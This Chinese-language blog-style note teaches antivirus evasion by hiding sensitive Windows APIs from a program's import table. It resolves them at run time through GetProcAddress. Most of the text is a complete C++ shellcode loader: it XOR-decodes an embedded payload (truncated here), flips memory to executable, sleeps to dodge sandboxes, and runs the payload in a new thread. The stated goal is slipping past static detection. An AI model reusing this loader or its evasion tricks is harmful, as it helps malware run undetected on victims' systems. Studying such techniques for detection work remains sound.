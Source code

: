 ```yaml
---
title: 隐藏IAT(导入表)敏感API笔记
tags: 免杀
---
```


#### 前言

本篇文章在于介绍，一些免杀技巧，也是属于绕过静态查杀的范畴。本文大量图片直接拿来@倾旋师傅的图片，写得太好了，没什么可以修改的。

#### 前置知识：

1. PE结构知识

2. Windows API
3. C/C++编程语言基础

#### 导入地址表（IAT）

##### 原理：

> Import Address Table 由于导入函数就是被程序调用但其执行代码又不在程序中的函数，这些函数的代码位于一个或者多个DLL 中，当PE 文件被装入内存的时候，Windows 装载器才将DLL 装入，并将调用导入函数的指令和函数实际所处的地址联系起来(动态连接)，这操作就需要导入表完成.其中导入地址表就指示函数实际地址。

![2020-10-23-10-46-14](https://gitee.com/evilashz/MyIMGs/raw/master/img/20201122152918.png)

在PE结构中，存在一个导入表，导入表中声明了这个PE文件会载入哪些模块，同时每个模块的结构中又会指向模块中的一些函数名称。这样的组织关系是为了告诉操作系统这些函数的地址在哪里，方便修正调用地址。

**如果一个文件的文件大小在300KB以内，并且导入函数又有`Virtual Alloc`、`CreateThread`，且`VirtualAlloc`的最后一个参数是`0x40`，那么此文件是高危文件。**



`0x40`被定义在`winnt.h`中：

```
#define PAGE_NOACCESS           0x01    
#define PAGE_READONLY           0x02    
#define PAGE_READWRITE          0x04    
#define PAGE_WRITECOPY          0x08    
#define PAGE_EXECUTE            0x10    
#define PAGE_EXECUTE_READ       0x20    
#define PAGE_EXECUTE_READWRITE  0x40    
#define PAGE_EXECUTE_WRITECOPY  0x80  
```

未修改IAT的特征很明显，如下图

![2020-10-23-11-13-58](https://gitee.com/evilashz/MyIMGs/raw/master/img/20201122153022.png)

上篇文章的示例程序可以拿来看看它的IAT如下：

![屏幕快照 2020-12-11 15.07.04](https://gitee.com/evilashz/MyIMGs/raw/master/img/20201211151546.png)

#### 隐藏IAT

我们要实现的就是：**相当于隐藏敏感的API**，通过 GetModuleHandle + GetProcAddress 的方式隐藏敏感API

##### GetProcAddress获取函数地址

`GetProcAddress`这个API在Kernel32.dll中被导出，主要功能是从一个加载的模块中获取函数的地址。

函数声明如下：

```
FARPROC GetProcAddress(
  HMODULE hModule, // 模块句柄
  LPCSTR  lpProcName // 函数名称
);
```

`FARPROC`被定义在了`minwindef.h`中，声明如下：

```
#define WINAPI    __stdcall

typedef int (FAR WINAPI *FARPROC)();
```

跟进它的声明能够发现是一个函数指针，也就是说`GetProcAddress`返回的是我们要找的函数地址。



**一般进内存的主要流程：**

```
VirtualAlloc -> VirtualProtect -> CreateThread -> WaitForSingleObject
```



这几个函数是比较明显的，并且都在`kernel32.dll`中导出，尝试自己定义他们的函数指针，然后利用`GetProcAddress`获取函数地址，调用自己的函数名称。

```c++
typedef LPVOID(WINAPI* ImportVirtualAlloc)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flAllocationType,
	DWORD  flProtect
	);

typedef HANDLE(WINAPI* ImportCreateThread)(
	LPSECURITY_ATTRIBUTES   lpThreadAttributes,
	SIZE_T                  dwStackSize,
	LPTHREAD_START_ROUTINE  lpStartAddress,
	__drv_aliasesMem LPVOID lpParameter,
	DWORD                   dwCreationFlags,
	LPDWORD                 lpThreadId);

typedef BOOL(WINAPI* ImportVirtualProtect)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flNewProtect,
	PDWORD lpflOldProtect
	);

typedef DWORD (WINAPI * ImportWaitForSingleObject)(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);
```

然后在`main`函数中，定义四个函数指针来存放这些函数的地址。

```c++
	ImportVirtualAlloc MyVirtualAlloc = (ImportVirtualAlloc)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualAlloc");
	ImportCreateThread MyCreateThread = (ImportCreateThread)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "CreateThread");
	ImportVirtualProtect MyVirtualProtect = (ImportVirtualProtect)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualProtect");
	ImportWaitForSingleObject MyWaitForSingleObject = (ImportWaitForSingleObject)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "WaitForSingleObject");
```

完整代码如下：

```c++
#include <Windows.h>
#include <intrin.h>
#include <WinBase.h>
#include <stdio.h>

typedef LPVOID(WINAPI* ImportVirtualAlloc)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flAllocationType,
	DWORD  flProtect
	);

typedef HANDLE(WINAPI* ImportCreateThread)(
	LPSECURITY_ATTRIBUTES   lpThreadAttributes,
	SIZE_T                  dwStackSize,
	LPTHREAD_START_ROUTINE  lpStartAddress,
	__drv_aliasesMem LPVOID lpParameter,
	DWORD                   dwCreationFlags,
	LPDWORD                 lpThreadId);

typedef BOOL(WINAPI* ImportVirtualProtect)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flNewProtect,
	PDWORD lpflOldProtect
	);

typedef DWORD(WINAPI* ImportWaitForSingleObject)(
	HANDLE hHandle,
	DWORD  dwMilliseconds
	);



// 入口函数
int wmain(int argc, TCHAR* argv[]) {

	ImportVirtualAlloc MyVirtualAlloc = (ImportVirtualAlloc)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualAlloc");
	ImportCreateThread MyCreateThread = (ImportCreateThread)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "CreateThread");
	ImportVirtualProtect MyVirtualProtect = (ImportVirtualProtect)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualProtect");
	ImportWaitForSingleObject MyWaitForSingleObject = (ImportWaitForSingleObject)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "WaitForSingleObject");


	int shellcode_size = 0; // shellcode长度
	DWORD dwThreadId; // 线程ID
	HANDLE hThread; // 线程句柄
	DWORD dwOldProtect; // 内存页属性
/* length: 800 bytes */

	char buf[] = "\xf6\xe2\x83\x0a\x0a\x0a\x6a...";


	// 获取shellcode大小
	shellcode_size = sizeof(buf);

	/* 增加异或代码 */
	for (int i = 0; i < shellcode_size; i++) {
		//Sleep(50);
		_InterlockedXor8(buf + i, 10);
	}
	
	/*
	VirtualAlloc(
		NULL, // 基址
		800,  // 大小
		MEM_COMMIT, // 内存页状态
		PAGE_EXECUTE_READWRITE // 可读可写可执行
		);
	*/

	char* shellcode = (char*)MyVirtualAlloc(
		NULL,
		shellcode_size,
		MEM_COMMIT,
		PAGE_READWRITE // 只申请可读可写
	);

	// 将shellcode复制到可读可写的内存页中
	CopyMemory(shellcode, buf, shellcode_size);

	// 这里开始更改它的属性为可执行
	MyVirtualProtect(shellcode, shellcode_size, PAGE_EXECUTE, &dwOldProtect);

	// 等待几秒，兴许可以跳过某些沙盒呢？
	Sleep(2000);

	hThread = MyCreateThread(
		NULL, // 安全描述符
		NULL, // 栈的大小
		(LPTHREAD_START_ROUTINE)shellcode, // 函数
		NULL, // 参数
		NULL, // 线程标志
		&dwThreadId // 线程ID
	);

	MyWaitForSingleObject(hThread, INFINITE); // 一直等待线程执行结束
	return 0;
}
```

编译后能够正常执行，并且查看一下导入表，自己定义的函数已经不在导入表中了：

![2020-10-23-11-26-45](https://gitee.com/evilashz/MyIMGs/raw/master/img/20201122153249.png)



懒得自己演示一遍了，直接展示倾旋师傅的代码...